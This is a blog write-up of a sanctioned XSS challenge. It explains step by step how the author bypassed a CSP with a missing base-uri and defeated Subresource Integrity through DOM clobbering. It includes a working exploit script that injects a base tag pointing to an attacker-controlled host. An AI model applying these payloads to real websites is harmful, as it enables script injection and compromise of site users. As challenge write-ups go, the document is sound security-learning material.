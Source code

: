 ```yaml
---
layout: post
title:  "BugPoC's XSS Challenge Writeup"
date:   2020-11-09 11:09:00 +0545
author: machinexa
image: /posts/writeups/assets/images/xsschallenge.jpeg
category: Writeups
---
```


## Description
From the time of the announcement, I was excited about the new challenge from BugPoC. The challenge was to pop alert box with origin as text, bypassing CSP, and sandboxed iframe. Also, the alert must work in the latest version of Chrome only. I started solving immediately after the challenge was released. The challenge URL is:  [wacky.buggywebsite.com](https://wacky.buggywebsite.com/)

### Finding Reflection
So, my first task was to find reflection or DOM XSS sink. Visiting the site, the first thing I noticed was the webpage was only available for Chrome, so I opened it in Chromium. Here's what it looked like: 

![Homepage](/posts/writeups/assets/images/xsschallenge_homepage.png)

I tried writing some text and it was successfully reflected. I immediately tried some tags but nope it didn't work. The regex was replacing `&*<>%` characters with a blank string. The thing to note was that it was reflected as `<iframe src="frame.html?param=Hello, World!" name="iframe">`  

I thought about injecting event handler and attributes like srcdoc but I don't think any will work because popping alert won't be easy, will it?
Besides, I found about frame.html from the reflection so I started to analyze its source code. There were lots of scripts and the one that was important was:
```js
window.fileIntegrity = window.fileIntegrity || {
	'rfc' : ' https://w3c.github.io/webappsec-subresource-integrity/',
	'algorithm' : 'sha256',
	'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',
	'creationtime' : 1602687229
}

// verify we are in an iframe
if (window.name == 'iframe') {
	// securely load the frame analytics code
	if (fileIntegrity.value) {
		// create a sandboxed iframe
		analyticsFrame = document.createElement('iframe');
		analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
		analyticsFrame.setAttribute('class', 'invisible');
		document.body.appendChild(analyticsFrame);

		// securely add the analytics code into iframe
		script = document.createElement('script');
		script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
		script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
		script.setAttribute('crossorigin', 'anonymous');
		analyticsFrame.contentDocument.body.appendChild(script);
	}
} else {
	...
}
```
<br>
The first thing I tried was to change the window.name to "iframe" from dev tools, then refresh the page. You might think it's self XSS as user interaction is required but it is not:

![window.name](/posts/writeups/assets/images/xsschallenge_windowname.png)

It is a special global variable because it is persistent across cross-domain. Thus, an attacker can change the variable, and it will be available even after refreshing or visiting a new page. After checking its source, we got 2 reflections and 1 partial reflection. The important was unsanitized input reflected in `<title>` while the rest were either useless or sanitized.

### Bypassing CSP and SRI
After getting unsanitized reflection, I tried to escape from the title then pop alert. I used this payload `</title><script>alert(1)</script>` but unfortunately, the Chrome's great CSP blocked it. Using CSP evaluator from Google, I found out this CSP was faulty. The following message caught my attention:
```
Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker-controlled domain. Can you set it to 'none' or 'self'?
```
<br>
Injecting the `<base>` tag will cause the script to be fetched from an attacker-controlled domain, thus executing arbitrary javascript. If you remember the code above, there is actually a script tag that fetches `frame-analytics.js`. Everything was ready for my plan and I was hoping for an alert but nope. After injection, the only thing I got was another error which got me frustrated.  

![Integrity error](/posts/writeups/assets/images/xsschallenge_sri.png)

It was an integrity error which is related to SRI (Sub Resource Integrity), which protects against compromised script sources. In nutshell, it's a hash of the entire javascript file. There was no way I could generate the same hash, and a collision was impossible as the browser only supports collision resistant hashes. However, if I could change `window.fileIntegrity.value`, maybe I could set the value to the hash of my file.  

The id and value attribute of `<input>` directly affects javascript variables. Its a well known method of DOM Clobbering commonly used in CTFs. So, I used the following script: 
```html
<script>
window.name = "iframe";
payload = encodeURI('</title><base href="https://wzqkyz5l1054.redir.bugpoc.ninja/"><input id="fileIntegrity" value="3ZRbpxB3ZH9LPg3CX6ZGzidaPOFZOSpeK06lI1eZOLE=">');
window.location = "https://wacky.buggywebsite.com/frame.html?param=" + payload; //
</script>
```
And guess what happened? I got another error :rage:

### Magical alert box
Since, allow-modals wasn't set I tried experimenting with different frames and window objects. By default, Chrome blocks call to alert in the sandboxed environment ([Blocked modal dialogs](https://googlechrome.github.io/samples/block-modal-dialogs-sandboxed-iframe/)). Searching for a bypass, I didn't get anything useful, however, it was very easy to bypass, I just needed to alert on the upper frame. For that I used, `window.top.alert()`.  

Finally, the moment I was waited for after trying for so long came. I got the **magical alert box**, it was truly amazing. 

![Magical alert box](/posts/writeups/assets/images/xsschallenge_alert.png)


## Takeaway 

* When going for XSS, search for as much reflection and sink as you can.
* Make sure to always review CSP policies. 
* Never stop learning, you find something new each day. 

The challenge was awesome, and I loved it. I also learned a lot of new things. Also, thanks to:
* BugPoC and Amazon for hosting and sponsoring the challenge.
* LiveOverflow for an awesome window.name trick
* Portswigger for awesome DOM Clobbering article

By the way, if you haven't watched [Liveoverflow's video](https://www.youtube.com/watch?v=L1RvK1443Yw&t=307s), go watch it now.

